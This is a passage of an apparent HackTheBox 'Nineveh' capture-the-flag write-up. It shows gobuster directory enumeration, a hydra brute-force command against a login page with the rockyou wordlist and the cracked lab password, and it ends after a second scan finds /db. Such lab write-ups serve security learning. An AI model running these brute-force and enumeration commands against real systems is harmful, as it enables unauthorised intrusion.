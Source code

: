 ```txt
===============================================================
http://10.10.10.43/.htaccess            (Status: 403) [Size: 295]
http://10.10.10.43/.htpasswd            (Status: 403) [Size: 295]                                 
http://10.10.10.43/department           (Status: 301) [Size: 315] 
http://10.10.10.43/server-status        (Status: 403) [Size: 299]                                     
                                                                                                      
===============================================================
2022/07/10 20:11:13 Finished
===============================================================

```

# Exploitation

## bruteforce on department
![[Nineveh-02.png]]

```bash
# use hydra to bruteforce on department
sudo gzip -d rockyou.txt.gz
hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -V
```

![[Nineveh-13.png]]

we will know the password is 1q2w3e4r5t

![[Nineveh-11.png]]

![[Nineveh-14.png]]

we will see there is a Notes page which may be local file inclusion.

 Let's run gobuster again. But this time we will use another dictionary.

```bash
gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -t 20
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Nineveh]
└─$ gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20                                    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.43
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/10 20:26:14 Starting gobuster in directory enumeration mode
===============================================================
/db                   (Status: 301) [Size: 309] [--> https://10.10.10.43/db/]

```
